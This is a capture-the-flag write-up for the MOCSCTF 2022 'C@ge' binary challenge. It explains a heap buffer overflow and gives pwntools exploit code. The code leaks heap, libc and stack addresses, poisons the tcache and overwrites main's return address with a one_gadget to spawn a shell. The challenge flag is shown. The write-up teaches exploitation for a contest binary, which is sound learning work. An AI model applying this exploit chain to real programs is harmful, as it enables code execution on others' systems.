# mocsctf2022.mocsctf.com - C@ge

Origin challenge link: https://mocsctf2022.mocsctf.com/challenges

You can also download challenge in my repo: [birdcage.zip](birdcage.zip)

There will be 2 file in zip:

- birdcage

- libc-2.27.so

Download the zip and use `patchelf` or `pwninit` to patch file and we start!

# 1. Find bug

First, we use `file` to check for basic information:

```
$ file birdcage

birdcage: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=815b314e9a5ce8c0a93ad5878bf245b34e255955, not stripped
```

Well this is a 64-bit file without being stripped. Next we will use `checksec` to check all the defenses:

```
$ checksec birdcage
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Well we can see that `No PIE` will help us a lot. Let's fire up ghidra and get the flow of the program. Because this is a c++ file so most function will be different from c. There are several functions and we will get through all of them shortly.

Firstly, there is a global variable named `cage`.

Secondly, main() will print out the menu, then read in the command, just the command because cin will stop when it meet null byte and space (5 commands are `capture`, `sing`, `dismiss`, `list` and `leave`). After read the command, it will jump to the corresponding function.

Thirdly, capture() will get input of index and name of bird (such as `cock`, `owl` and `parrot`). After getting input, it will check if `cage[index]` is null or not. If not null, it will free() at position correspond to index. 

After that, it will `operator.new()` which similar to malloc(). Cock and Owl will malloc with constant string while parrot will malloc and get string from our input. One thing to notice is that `cin` in parrot will get unlimited input --> **Heap Buffer Overflow**

```
// Address: 0x0000000000402848
void __thiscall Parrot::Parrot(Parrot *this)

{
    char *pcVar1;

    // Inherit of bird
    Bird::Bird((Bird *)this);
    
    // Add parrot:sing address to chunk
    *(undefined ***)this = &PTR_sing_00604d08;

    // Add buffer address
    // buffer address = curent heap address + 0x18
    std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string
            ((basic_string<char,std::char_traits<char>,std::allocator<char>> *)(this + 8));

    // cout << "Pls talk: ";
    std::operator<<((basic_ostream *)std::cout,"Pls talk: ");
    
    // Get the buffer
    pcVar1 = (char *)std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::
            data((basic_string<char,std::char_traits<char>,std::allocator<char>> *)(this + 8)
                       );

    // cin >> pcVar1;
    std::operator>>((basic_istream *)std::cin,pcVar1);
    return;
}
```

When look at GDB, it will be like this:



With unlimited input, we can overwrite all the next heap to do whatever we want. And one more thing we need to know that cin will auto add null byte at the end of input.

The forth function is sing, which will **execute** function sing of the correspond bird. Remember that it take the address from heap, then execute the address in it. For example as below:



The address `0x0000000000604d08` contains parrot::sing address `0x00000000004028e4`. As the result, it will execute `0x00000000004028e4`, not `0x0000000000604d08`.

The fifth function is dismiss, which will free() the chunk and set `cage[index]=0` so there is no use after free.

- Summary all bugs:
  1. Heap Buffer Overflow
  2. cin will auto add null byte at the end of user input
  3. Sing() will execute function inside a parent address
  4. Sing() will print out the data until null byte or space
  5. `cage` is a global variable

# 2. Idea

We know that we have heap buffer overflow, with which we can do arbitrary write and Sing() will print out data for us. The first thing we are going to do is leak the heap and libc address via `cage` (`cage` is global var so address will be the same because of `No PIE`) and `@got` (I will use `alarm@got`)

With address of libc and heap, we can make it Sing() to execute libc function which create shell for us. But after I did, I realize we also need to leak stack address. From leaked stack address, we will calculate the return address of main, then arbitrarily write to return and we get shell.

- Summary:
  1. Leak heap address
  2. Leak libc address
  3. Leak stack address
  4. Get shell

# 3. Exploit

### Table of content:
  
  1. [Leak heap address](#stage-1-leak-heap-address-table-of-content)
  2. [Leak libc address](#stage-2-leak-libc-address-table-of-content)
  3. [Leak stack address](#stage-3-leak-stack-address-table-of-content)
  4. [Get shell](#stage-4-get-shell-table-of-content)

---

We will makes some functions to help us exploit more convinient:

<details>
<summary>Code snippet</summary>
<p>

```
def capture(index, bird, talk=''):
    data = 'capture ' + str(index) + ' ' + bird
    p.sendlineafter(b'>', data.encode())
    if bird=='parrot':
        p.sendlineafter(b'Pls talk:', talk)

def sing(index):
    p.sendlineafter(b'>', 'sing {}'.format(index).encode())
    return p.recvuntil(b'>')

def dismiss(index):
    p.sendlineafter(b'>', 'dismiss {}'.format(index).encode())

def list():
    p.sendlineafter(b'>', b'list')

def leave():
    p.sendlineafter(b'>', b'leave')
```

</p>
</details>

And now let's start

### Stage 1: Leak heap address ([Table of content](#table-of-content))

We know that Sing() will execute function inside `0x0000000000604d08` and print data of the next 8-byte address `0x0000000001b10e88` (image above) so we know that `0x0000000000604d08` is remain if we want our string to be printed. First we will capture 2 parrots with index 0 and 1:

```
capture(0, 'parrot', b'0'*0x10)    # Not overwrite to next chunk
capture(1, 'parrot', b'1'*0x10)    # Not overwrite to next chunk
```

Next, we will overwrite the address containing the string of `1` into address of `cage`, which contain heap address:

```
cage = 0x605380
capture(0, 'parrot', b'0'*0x20 + p64(cage))
```

Which now overwrite chunk 1 metadata and address contain parrot::sing `0x0000000000604d08` (Heap address changed).

Before capture:



After capture:



So now how we recover the address contain parrot::sing `0x0000000000604d08`? Well we will abuse the null byte added of cin to set those byte from `\x30` to `\x00`:

```
parrot_sing_got = 0x0000000000604d08
for i in range(1, 6):
    capture(0, 'parrot', b'0'*(0x20-i))
capture(0, 'parrot', b'0'*0x18 + p32(parrot_sing_got))
```

Running through the first capture in loop, we can see that `\x30` changed to `\x00`:



And if we continue to the end of loop, we get this:



We only have 3 bytes last because we don't need to change all, and also because `0x0000000000604d08` only need 3 byte. So if we write that address, those 3 bytes `\x30` will also be replaced:



After successfully writing, we just now:

```
Sing(1)
```

And the heap address of first chunk will be leaked:



Getting that leak and parse it with the following code:

```
heap_leak = sing(1)[1:-2]
heap_leak = u64(heap_leak + b'\x00'*(8-len(heap_leak)))
log.success('Leak heap address: ' + hex(heap_leak))
```

And we get heap address. Let's move on!

### Stage 2: Leak libc address ([Table of content](#table-of-content))

By using above technique, we can get libc address of alarm, then subtract with the offset and we get libc base address:

```
parrot_sing_got = 0x0000000000604d08
alarm_got = 0x00000000006050d8

p.sendline(b'capture 0 parrot')
p.sendlineafter(b'Pls talk:', b'0'*0x20 + p64(alarm_got))
for i in range(1, 6):
    capture(0, 'parrot', b'0'*(0x20-i))
capture(0, 'parrot', b'0'*0x18 + p32(parrot_sing_got))

alarm_addr = u64(sing(1)[1:-2] + b'\x00\x00')
log.success('Leak libc address: ' + hex(alarm_addr))
libc.address = alarm_addr - libc.sym['alarm']
log.success('Libc base: ' + hex(libc.address))
```

Running that script will give us libc base address:



### Stage 3: Leak stack address ([Table of content](#table-of-content))

Now we need to leak stack address, then calculate distance from ret address to the leaked stack address. The aim is to overwrite the stack, where the program ret, to our shellcode and program will execute that.

And the place which always contains stack address is libc environ:



```
p.sendline(b'capture 0 parrot')
p.sendlineafter(b'Pls talk:', b'0'*0x20 + p64(libc.sym['environ']))
for i in range(1, 6):
    capture(0, 'parrot', b'0'*(0x20-i))
capture(0, 'parrot', b'0'*0x18 + p32(parrot_sing_got))

stack_leak = u64(sing(1)[1:-2] + b'\x00\x00')
log.success('Stack address: ' + hex(stack_leak))
```

Running that script and we get the leaked stack address:


We can see that the leaked stack addresses in GDB and in terminal are the same. 

Now we will calculate the return address of main(). Continue in GDB, when we are in main():



We can see that the distance between return address of main and environment address is `0xf0`. Also we can see that return address of main will jump to `__libc_start_main+231` which similar to `__libc_start_main_ret`. So next time run, we just simply check if our calculated address contain `__libc_start_main_ret` or not:

```
offset = 0xf0
ret_addr = stack_leak - offset
log.success('Ret address: ' + hex(ret_addr))
```

And we get the return address:



Let's check if it's correct:



So that's correct and we get the return address. Let's move on final stage: get shell!

### Stage 4: Get shell ([Table of content](#table-of-content))

With the control of rip, especially arbitrary write to stack, we can create shell using `system("/bin/sh)"` or one gadget. For this writeup I will use one gadget instead.

But first, let's find all one gadgets we have:



To check if one of these constraints are satisfied or not, we will leave and set a breakpoint at `ret` of main, then check all constraints:



We can see that the address of rsp `0x7ffc357535a8` doesn't end with `\x00` so the first constraint `rsp & 0xf == 0` cannot be satisfied. 

We can also see that `rsp+0x40` doesn't contain a null byte address so the second constraint `[rsp+0x40] == NULL` cannot be satisfied too.

But with the third constraint, we know that `$rsp+0x70` equal to null. So we will use the third one gadget to create shell for us.

This time we will abuse tcache link list to write things to stack. To do so, we need 2 small chunk being freed, not the first chunk (we use it to write arbitrary stuff) nor second chunk (corrupted chunk) so we will init 2 more chunk and free them:

```
p.sendline(b'capture 2 parrot')
p.sendlineafter(b'Pls talk:', b'2'*0x10)
capture(3, 'parrot', b'3'*0x10)
dismiss(3)
dismiss(2)
```

We can see the forward pointer in the chunk 2 `0x0000000001312f00`:



Then we overwrite the forward pointer of chunk 2 to the stack address. So that when we malloc again, we can write data to stack:

```
capture(0, 'parrot', b'0'*0x48 + p64(ret_addr-0x18))
```

As I mentioned above, the buffer, which program write our input to, will equal to the current heap address (which we overwrite into stack address so currently heap address is stack address) add 0x18. So when we need to write to some addresses, we just take that address, minus 0x18 and capture()

```
capture(3, 'parrot', b'2'*0x10)
capture(2, 'parrot', p64(libc.sym['one_gadget']))
```

Running that script and the stack at the return of main is overwritten with one gadget:



So now we just leave() and we get the shell.

Full code: [solve.py](solve.py)

# 4. Get flag



Flag is `MOCSCTF{Y0u_@r3_Fr33_Fr0m_7h3_C@g3!_764efa883dda1e11db47671c4a3bbd9e}`